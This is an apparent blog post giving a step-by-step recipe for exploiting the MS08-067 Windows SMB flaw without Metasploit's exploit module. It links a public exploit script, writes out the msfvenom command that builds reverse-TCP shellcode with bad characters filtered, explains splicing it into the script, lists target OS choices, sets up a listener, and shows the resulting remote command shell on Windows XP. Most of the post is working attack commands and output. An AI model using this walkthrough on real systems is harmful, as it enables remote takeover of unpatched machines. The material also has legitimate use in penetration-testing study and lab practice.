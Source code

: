 ```yaml
---
title:  "MS08-067 - DIY Script"
date:   2021-08-05 21:15:00 +0000
categories: [techniques]
tags: [windows, scripts, ms08-067]
comments: false
---
```


MS08-067 - Without Mimikatz Script
==================================

Exploiting MS08-067 without using metasploit.   

This has been quite tricky to get working, but in summary from my experience, you cant use 'nc' as a listener for this because the payload needs to be STAGED and 'nc' will only catch STAGELESS payloads.


First download the Python Script from here - [MS08_067](https://www.exploit-db.com/raw/40279 'MS08-067')

Next run msfvenom with the arguments to suit your needs:

`msfvenom -p windows/shell/reverse_tcp LHOST=x.x.x.x LPORT=8080  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode --arch x86 --platform windows`

Next, replace the shell code in the python script with the shell code you have just created with msfvenom.

Note - LEAVE THE FIRST THREE LINES (NOPS) IN THE PYTHON SCRIPT.
Lines, 47, 48, 49


`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`
`shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"`   
`---ENTER SHELLCODE HERE ---`

Next make a note of the Operating System & Service Pack that your are trying to execute. 
There are 7 options to choose from:

1.   Windows XP SP0/1 Universal   
2.   Windows 2000 Universal   
3.   Windows 2003 SP0 Universal   
4.   Windows 2003 SP1 English   
5.   Windows XP SP3 French (NX)   
6.   Windows XP SP3 English (NX)   
7.   Windows XP SP3 English (AlwaysOn NX)   

Next -  Start Metasploit and setup a handler   
    use exploit/multi/handler   
    set LHOST X.X.X.X   
    set LPORT XXXX   
    set payload windows/shell/reverse_tcp   
    exploit -j   

Next execute the python script using the correct number that relates to the OS and Service Pack liek so.


    python 40279.py 1

You should see the reverse shell returned.

    msf exploit(multi/handler) > exploit 

    [*] Started reverse TCP handler on X.X.X.X:8080 
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to A.A.A.A
    [*] Command shell session 10 opened (X.X.X.X:8080 -> A.A.A.A:1219) at 2017-02-00 15:55:22 +0000

    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:\WINDOWS\system32>


![img-description](/images/ms08-067.png)
_For Reference this is what the traffic looks like for a successful reverse TCP connection for this particular exploit._



